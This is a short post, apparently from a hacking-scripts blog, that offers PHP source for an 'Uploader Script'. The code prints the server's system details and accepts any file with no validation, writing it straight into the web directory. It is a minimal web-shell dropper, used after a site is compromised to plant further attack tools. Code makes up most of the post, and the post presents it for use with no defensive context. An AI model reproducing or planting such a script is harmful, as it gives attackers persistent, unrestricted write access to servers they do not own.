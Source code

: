 ```yaml
---
id: 66
title: Uploader Script
author: admin
layout: post
guid: http://hackingscripts.com/?p=66
permalink: /uploader-script/
categories:
  - PHP
  - Upload
tags:
  - PHP
  - uploader
---
```

This is a very basic uploader script, which simply enables the user to upload whatever they want to the server.

## Uploader Script Source Code

<pre class="brush: php; title: ; notranslate" title="">&lt;?php
echo '&lt;b&gt;&lt;br&gt;&lt;br&gt;'.php_uname().'&lt;br&gt;&lt;/b&gt;';
echo '&lt;form action="" method="post" enctype="multipart/form-data" name="uploader" id="uploader"&gt;';
echo '&lt;input type="file" name="file" size="50"&gt;&lt;input name="_upl" type="submit" id="_upl" value="Upload"&gt;&lt;/form&gt;';
if( $_POST['_upl'] == "Upload" ) {
    if(@copy($_FILES['file']['tmp_name'], $_FILES['file']['name'])) { echo '&lt;b&gt;Upload SUKSES !!!&lt;/b&gt;&lt;br&gt;&lt;br&gt;'; }
    else { echo '&lt;b&gt;Upload GAGAL !!!&lt;/b&gt;&lt;br&gt;&lt;br&gt;'; }
}
?&gt;
</pre>

## Uploader Script Screenshot

[<img src="http://hackingscripts.com/wp/wp-content/uploads/2014/01/uploader.png" alt="uploader script screenshot" width="495" height="108" class="aligncenter size-full wp-image-333" />][1]

 [1]: http://hackingscripts.com/wp/wp-content/uploads/2014/01/uploader.png